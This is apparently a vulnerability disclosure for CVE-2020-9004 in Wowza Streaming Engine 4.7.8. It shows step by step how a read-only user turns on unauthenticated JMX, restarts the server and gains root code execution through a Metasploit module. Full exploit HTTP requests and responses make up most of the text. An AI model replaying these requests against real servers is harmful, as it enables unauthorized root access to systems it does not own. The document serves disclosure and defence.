






# CVE-2020-9004-Authenticated Remote Authorization Bypass Leading to RCE
A remote authenticated authorization bypass vulnerability in Wowza Streaming Engine 4.7.8 (build 20191105123929), allows any read-only user to issue requests to the administration panel in order to change functionality of the application. For example a read only user may activate the java JMX port in unauthenticated mode and execute OS system commands under root privileges.

### Evidence


<br />
*Figure 1 - Admin has access to JMX Remote Configuration
<br />
<br />


<br />
*Figure 2 - User "user" is read-only
<br />
<br />


<br />
*Figure 3 - User "user" has no access to JMX Remote Configuration
<br />
<br />



<br />
*Figure 4 - JMX Port 8085 closed
<br />
<br />


Request to activate JMX in unauthenticated mode and listen on all interfaces:
```
POST /enginemanager/server/serversetup/edit_adv.htm HTTP/1.1
Host: 192.168.101.128:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.101.128:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 3841
Cookie: JSESSIONID=E3CA656F37B024F8E2C35E4871C1EC6B; DoNotShowFTU=true; showRightRail=true; lastMangerHost=http%3A//localhost%3A8087; lastTab=Advanced; JSESSIONID=BEA4C40611950C8725FB899535496B1F
Connection: close

vhost=_defaultVHost_&advSection=JMXRemoteConfiguration&advPath=%2FRoot%2FServer&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.uiBooleanValue=true&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.type=Boolean&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.name=enable&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.value=localhost&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.name=ipAddress&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.value=0.0.0.0&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.name=rmiServerHostName&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.value=8084&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.type=Integer&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.name=rmiConnectionPort&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.uiBooleanValue=false&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.type=Boolean&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.name=authenticate&advancedTables%5BJMXRemoteConfi<br />guration%5D%5B4%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.value=8085&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.type=Integer&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.name=rmiRegistryPort&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.value=%24%7Bcom.wowza.wms.ConfigHome%7D%2Fconf%2Fjmxremote.password&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.name=passwordFile&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.value=%24%7Bcom.wowza.wms.ConfigHome%7D%2Fconf%2Fjmxremote.access&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.name=accessFile&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.uiBooleanValue=false&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.type=Boolean&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.name=sslSecure&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.canRemove=false
```

Response:
```
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Fri, 14 Feb 2020 07:25:00 GMT
Connection: close
Content-Length: 138767

<div>
	<div class="row">
<div id="generic.warnings" class="alert alert-warning" style="display:none"></div>
<div class="col-md-12">
		<div class="alert alert-success" id="successMessage">
			<strong><i class="fa fa-info-circle"></i> <strong>Saved!</strong> You must restart the server for changes to take effect. <a class="btn btn-sm btn-warning" onclick="javascript:restartServerShow()"><i class="fa fa-refresh"></i>&nbsp;Restart Now</a></strong>
		</div> 
	</div>
	</div>
	<div class="row">
		<div class="col-md-9">
			<happ>
***TRUNCATED***
```

We have to reboot the service to apply changes.

Request:
```
POST /enginemanager/server/restart.htm HTTP/1.1
Host: 192.168.101.128:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.101.128:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 446
Cookie: JSESSIONID=E3CA656F37B024F8E2C35E4871C1EC6B; DoNotShowFTU=true; showRightRail=true; lastMangerHost=http%3A//localhost%3A8087; lastTab=Advanced; JSESSIONID=BEA4C40611950C8725FB899535496B1F
Connection: close

vhost=_defaultVHost_&version=3161837623000&name=Wowza+Streaming+Engine&description=Wowza+Streaming+Engine+is+robust%2C+customizable%2C+and+scalable+server+software+that+powers+reliable+streaming+of+high-quality+video+and+audio+to+any+device%2C+anywhere.&licenseFile=ET1E4-XXXXX-XXXXX-XXXXX-XXXXX-XXXXX-BfWcpzFWMJ9&defaultStreamPrefix=mp4&statsEnabled=true&_statsEnabled=on&_rtpDataPortSharing=on&rtpDataPortSharingPort=6970&returnPage=serversetup
```

Response:
```
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Fri, 14 Feb 2020 08:57:42 GMT
Connection: close
Content-Length: 138485

<div>
	<div class="row">
<div id="generic.warnings" class="alert alert-warning" style="display:none"></div>
	<div class="col-md-12">
		<div class="alert alert-success" id="successMessage">
			<strong>Server will restart in 5 seconds <script>setTimeout(function() { $('#successMessage').fadeOut('fast'); }, 10000);</script></strong>
		</div> 
	</div>

***TRUNCATED***

```


<br />
*Figure 5 - JMX port 8085 opened
<br />
<br />

Using metasploit module multi/misc/java_jmx_server we obtained rce:

<br />
*Figure 6 - RCE
<br />
